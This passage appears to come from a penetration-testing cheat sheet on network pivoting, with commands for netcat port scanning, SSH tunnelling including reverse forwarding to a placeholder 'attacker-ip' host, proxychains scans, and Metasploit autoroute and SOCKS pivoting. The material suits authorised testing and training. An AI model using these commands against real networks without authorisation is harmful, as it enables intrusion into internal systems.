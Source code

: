 ```bash

# Port scanning with netcat
for port in 22 23 80 443 445; do
    nc -zv 192.168.1.1 $port 2>&1 | grep succeeded
done
```

### SSH Tunneling and Port Forwarding

#### SSH Local Port Forwarding
```bash
# Forward local port to remote service
ssh -L <local-port>:<target-ip>:<target-port> user@pivot-host

# Example: Access internal web server
ssh -L 8080:10.1.1.10:80 user@pivot-host
# Access via http://localhost:8080

# Multiple ports
ssh -L 8080:10.1.1.10:80 -L 3389:10.1.1.10:3389 user@pivot-host
```

#### SSH Dynamic Port Forwarding (SOCKS Proxy)
```bash
# Create SOCKS proxy
ssh -D 1080 user@pivot-host

# Configure proxychains
echo "socks4 127.0.0.1 1080" >> /etc/proxychains.conf

# Use proxychains with tools
proxychains nmap -sT -Pn 10.1.1.0/24
proxychains crackmapexec smb 10.1.1.0/24
```

#### SSH Reverse Port Forwarding
```bash
# On pivot machine: Forward its port back to attacker
ssh -R <attacker-port>:<target-ip>:<target-port> attacker@attacker-ip

# Example: Make internal service accessible on attacker
ssh -R 8080:10.1.1.10:80 attacker@attacker-ip
```

### Metasploit Pivoting

#### Meterpreter Pivoting
```bash
# Get meterpreter session on pivot host
# Add route to internal network
meterpreter > run autoroute -s 10.1.1.0/24

# Background session and use auxiliary modules
background
use auxiliary/scanner/portscan/tcp
set RHOSTS 10.1.1.0/24
set THREADS 10
run

# SOCKS proxy through meterpreter
use auxiliary/server/socks4a
set SRVPORT 1080
run -j

```